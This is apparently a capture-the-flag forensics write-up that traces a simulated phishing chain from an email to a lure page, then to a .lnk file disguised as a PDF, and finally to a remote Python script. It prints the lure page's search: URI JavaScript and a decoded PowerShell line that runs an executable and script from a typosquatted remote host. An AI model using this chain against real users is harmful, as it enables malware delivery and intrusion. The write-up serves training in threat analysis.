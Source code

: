 # A new Hire

**Creator:** ch4p

**Description:** The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

**Category:** Forensics

**Difficulty:** very easy

**File:** forensics_a_new_hire.zip

## Solution 

The file provided was an email message. Within it was a reference to resume hosted online: `storage.microsoftcloudservices.com:[PORT]/index.php`

Visiting the page revealed a blurred background with a "View Resume" button:
![alt text](image.png)

Viewing the page source revealed the following JavaScript tied to the resume button:
```javascript 

    setTimeout(() => {
      document.getElementById('loading').style.display = 'none';
      document.getElementById('main-content').style.display = 'flex';
    }, 5000);

    function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
  
```
This hinted at a file directory: `/3fe1690d955e8fd2a0b282501570e1f4/resumes/`

I accessed the path directly using curl: `curl http://94.237.50.121:34413/3fe1690d955e8fd2a0b282501570e1f4/resumes/`

That returned a simple HTML directory listing: 
```HTML
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /3fe1690d955e8fd2a0b282501570e1f4/resumes</title>
 </head>
 <body>
<h1>Index of /3fe1690d955e8fd2a0b282501570e1f4/resumes</h1>
<ul><li><a href="/3fe1690d955e8fd2a0b282501570e1f4/"> Parent Directory</a></li>
<li><a href="Resume.pdf%20.lnk"> Resume.pdf .lnk</a></li>
</ul>
</body></html>

```

The file appeared to be a PDF, but was actually a Windows shortcut (.lnk) file.


Running strings on the .lnk file revealed embedded PowerShell code and a base64-encoded string:
![alt text](image-1.png)

Decoded, the base64 revealed:
```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:34413/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@34413\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@34413\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

This tells us:
- A browser is used to open resume_official.pdf
- Then a Python executable is run with a remote script `client.py`

Downloaded the files: 
```bash 
curl http://94.237.50.121:34413/3fe1690d955e8fd2a0b282501570e1f4/python312/python.exe -o python.exe
curl http://94.237.50.121:34413/3fe1690d955e8fd2a0b282501570e1f4/configs/client.py -o client.py
```

Opening `client.py` revealed another base64 encoded string: `SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==`
![alt text](image-2.png)

Decoded it to get the flag of `HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`


